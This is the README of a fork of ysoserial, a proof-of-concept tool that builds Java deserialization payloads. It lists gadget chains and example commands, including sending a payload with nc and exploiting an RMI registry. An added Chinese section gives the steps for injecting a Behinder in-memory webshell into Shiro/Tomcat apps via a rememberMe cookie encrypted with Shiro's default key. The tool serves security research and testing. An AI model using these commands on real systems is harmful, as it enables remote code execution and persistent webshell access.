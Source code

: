 
# ysoserial

### shiro 内存马注入

使用对应链进行生成反序列化文件
`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 classfile:./Poc/shell/BehinderLoader.class > demo.ser`
指定加密模式和反序列化文件生成对应的 rememberMe
`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ShiroRememberMeEncode cbc:kPH+bIxk5D2deZiIxcaaaA==:./demo.ser`

### 更新日志
2021.0525 可以引入构造好的 class 直接进行 shiro Tomcat 内存马注入，同时可直接调用加密函数进行加密


[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Travis Build Status](https://api.travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial.jar [payload] '[command]'
  Available payload types:
     Payload             Authors                     Dependencies
     -------             -------                     ------------
     AspectJWeaver       @Jang                       aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1          @pwntester, @cschneider4711 bsh:2.0b5
     C3P0                @mbechler                   c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Click1              @artsploit                  click-nodeps:2.3.0, javax.servlet-api:3.1.0
     Clojure             @JackOfMostTrades           clojure:1.8.0
     CommonsBeanutils1   @frohoff                    commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1 @frohoff                    commons-collections:3.1
     CommonsCollections2 @frohoff                    commons-collections4:4.0
     CommonsCollections3 @frohoff                    commons-collections:3.1
     CommonsCollections4 @frohoff                    commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner commons-collections:3.1
     CommonsCollections6 @matthias_kaiser            commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1         @mbechler                   commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                    groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser            javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                   json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser            javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711 jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser            js:1.7R2
     MozillaRhino2       @_tint0                     js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                   rome:1.0
     Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines               wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
